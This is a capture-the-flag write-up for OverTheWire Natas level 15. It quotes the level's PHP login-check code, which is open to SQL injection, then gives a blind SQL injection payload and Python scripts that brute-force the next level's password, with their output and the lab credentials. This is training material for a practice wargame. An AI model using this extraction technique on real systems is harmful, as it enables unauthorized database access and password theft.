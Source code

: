 +++
author = "Alex Domnit"
title = 'Natas-Level 15'
date = 2024-08-22T15:52:52+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas15*\
*Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx*\
*URL:      http://natas15.natas.labs.overthewire.org*

### Doc
[What is SQL?](https://en.wikipedia.org/wiki/SQL)\
Structured Query Language is a domain-specific language used to manage data, especially in a relational database management system. It is particularly useful in handling structured data, i.e., data incorporating relations among entities and variables. 
[What is SQL injection?](https://en.wikipedia.org/wiki/SQL_injection)\
In computing, SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution.\
[What is brute-forcing?](https://en.wikipedia.org/wiki/Brute-force_attack)\
In cryptography, a brute-force attack consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly. The attacker systematically checks all possible passwords and passphrases until the correct one is found.\
[What is python?](https://en.wikipedia.org/wiki/Python_(programming_language))\
Python is a high-level, general-purpose programming language. Its design philosophy emphasizes code readability with the use of significant indentation. Python is dynamically typed and garbage-collected. It supports multiple programming paradigms, including structured, object-oriented and functional programming.

### Solution
Let`s log into natas15. Now the only present field is one entitled **username** and a **check existance** send button.

<img src="/img/natas/natas15-1.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
<strong>Source code:</strong>

{{< highlight html >}}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas15", "pass": "<censored>" };</script></head>
<body>
<h1>natas15</h1>
<div id="content">
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{{< /highlight >}}
#### What does this code do?
The important selection out of all of that code is this: 
```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }
```
This code snippet submits the sent data from the <strong>natas15 index page</strong> and parses it into a SQL query that boils down to:
```
Select * FROM users WHERE username="sentData"
```
Easy, basic <strong>SQL injection</strong> just like the last time right? Welp, not so soon since this time, there is no output except for an existance confirmation, a "does not exist return" and a sql querry error statement. So now that we know that we can`t output anything, what are we supposed to do?\
The 3 type of returns are actually very usefull since you can send data packets and get confirmation about the packets. The approach idea is to try every possible combination tailored with what we know that the output should be and how it should look and watch out for validation.
#### In practice, how can it be done?
The SQL injection statement will look like this:
```
natas16" AND password LIKE BINARY "%letter%" "
```
This will produce a positive output when the password associated with <strong>natas16</strong> contains a letter given by us (or in this case also an uppercase letter and numbers) and we will produce a string composed of all the letters present in the actual password. We should write a script in order to achieve this since doing that by hand is not possible.\
<strong>Python script template:</strong>
```
import requests

target = 'http://natas15.natas.labs.overthewire.org'
possibleCharacterList = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
foundCharacterList = ''

for character in possibleCharacterList:
	username = ('natas16" AND password LIKE BINARY "%' + character +'%" "') #BINARY is used to make the search case sensitive
	req = requests.get(target,
		auth=('natas15','SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'),
		params={"username": username}
	)
	if "This user exists" in req.text:
		foundCharacterList += character
		print ('Possible so far: ' + foundCharacterList)
print("----"+"end of search"+"----")
```
We use the <strong>request</strong> library in order to make requests and get responses from the service then define our SQL query, define our auth parameters (<strong>the login data you have for natas15</strong>) and if the response to our insert with a certain character is possitive, append it to the empty list.\
<strong>Script execution:</strong>
```
03:13:59 archie@Archie pyscript → python3 getpasswordletters.py
Possible so far: 3
Possible so far: 34
Possible so far: 346
Possible so far: 346c
Possible so far: 346ce
Possible so far: 346cef
Possible so far: 346cefh
Possible so far: 346cefhi
Possible so far: 346cefhij
Possible so far: 346cefhijk
Possible so far: 346cefhijkm
Possible so far: 346cefhijkmo
Possible so far: 346cefhijkmos
Possible so far: 346cefhijkmost
Possible so far: 346cefhijkmostu
Possible so far: 346cefhijkmostuv
Possible so far: 346cefhijkmostuvD
Possible so far: 346cefhijkmostuvDE
Possible so far: 346cefhijkmostuvDEG
Possible so far: 346cefhijkmostuvDEGK
Possible so far: 346cefhijkmostuvDEGKL
Possible so far: 346cefhijkmostuvDEGKLM
Possible so far: 346cefhijkmostuvDEGKLMP
Possible so far: 346cefhijkmostuvDEGKLMPQ
Possible so far: 346cefhijkmostuvDEGKLMPQV
Possible so far: 346cefhijkmostuvDEGKLMPQVW
Possible so far: 346cefhijkmostuvDEGKLMPQVWX
Possible so far: 346cefhijkmostuvDEGKLMPQVWXY
----end of search----
Possible characters: 346cefhijkmostuvDEGKLMPQVWXY
```
As you can see, we confirmed that the password is composed out of these characters : <strong>346cefhijkmostuvDEGKLMPQVWXY</strong>\
#### What`s next?
Okay, so we have our string of present characters in the password but that is not the passkey for the next level. The approach will now be, for character in string, if password is like characterinstring% append to characterinstring and continue until the password reaches the length of 32 (<strong>all the password\`s lenghts so far</strong>) and then break.\
For that I will make a function that takes the output of the last script and does what I\`ve described ealier for each letter in the input.\
<strong>Function:</strong>
```
def get_password(foundCharacterList):
    password = ''
    while len(password)!=32:
        for character in foundCharacterList:
            username = ('natas16" AND password LIKE BINARY "' + password + character + '%" "')
            req = requests.get(target,
                auth=('natas15','SdqIqBsFcz3yotlNYErZSZwblkm0lrvx'),
                params={"username": username}
            )
            if "This user exists" in req.text:
                password += character
                print ('Password so far: ' + password)
                break
    print("Final password: " + password)
```
<strong>Now let`s run this:</strong>
```
03:32:35 archie@Archie pyscript → python3 finalscript.py
Possible so far: 3
Possible so far: 34
Possible so far: 346
Possible so far: 346c
Possible so far: 346ce
Possible so far: 346cef
Possible so far: 346cefh
Possible so far: 346cefhi
Possible so far: 346cefhij
Possible so far: 346cefhijk
Possible so far: 346cefhijkm
Possible so far: 346cefhijkmo
Possible so far: 346cefhijkmos
Possible so far: 346cefhijkmost
Possible so far: 346cefhijkmostu
Possible so far: 346cefhijkmostuv
Possible so far: 346cefhijkmostuvD
Possible so far: 346cefhijkmostuvDE
Possible so far: 346cefhijkmostuvDEG
Possible so far: 346cefhijkmostuvDEGK
Possible so far: 346cefhijkmostuvDEGKL
Possible so far: 346cefhijkmostuvDEGKLM
Possible so far: 346cefhijkmostuvDEGKLMP
Possible so far: 346cefhijkmostuvDEGKLMPQ
Possible so far: 346cefhijkmostuvDEGKLMPQV
Possible so far: 346cefhijkmostuvDEGKLMPQVW
Possible so far: 346cefhijkmostuvDEGKLMPQVWX
Possible so far: 346cefhijkmostuvDEGKLMPQVWXY
----end of search----
Possible characters: 346cefhijkmostuvDEGKLMPQVWXY
Password so far: h
Password so far: hP
Password so far: hPk
Password so far: hPkj
Password so far: hPkjK
Password so far: hPkjKY
Password so far: hPkjKYv
Password so far: hPkjKYvi
Password so far: hPkjKYviL
Password so far: hPkjKYviLQ
Password so far: hPkjKYviLQc
Password so far: hPkjKYviLQct
Password so far: hPkjKYviLQctE
Password so far: hPkjKYviLQctEW
Password so far: hPkjKYviLQctEW3
Password so far: hPkjKYviLQctEW33
Password so far: hPkjKYviLQctEW33Q
Password so far: hPkjKYviLQctEW33Qm
Password so far: hPkjKYviLQctEW33Qmu
Password so far: hPkjKYviLQctEW33QmuX
Password so far: hPkjKYviLQctEW33QmuXL
Password so far: hPkjKYviLQctEW33QmuXL6
Password so far: hPkjKYviLQctEW33QmuXL6e
Password so far: hPkjKYviLQctEW33QmuXL6eD
Password so far: hPkjKYviLQctEW33QmuXL6eDV
Password so far: hPkjKYviLQctEW33QmuXL6eDVf
Password so far: hPkjKYviLQctEW33QmuXL6eDVfM
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
Final password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```
As you can see, we`ve got the password for the next level : <strong>hPkjKYviLQctEW33QmuXL6eDVfMW4sGo</strong>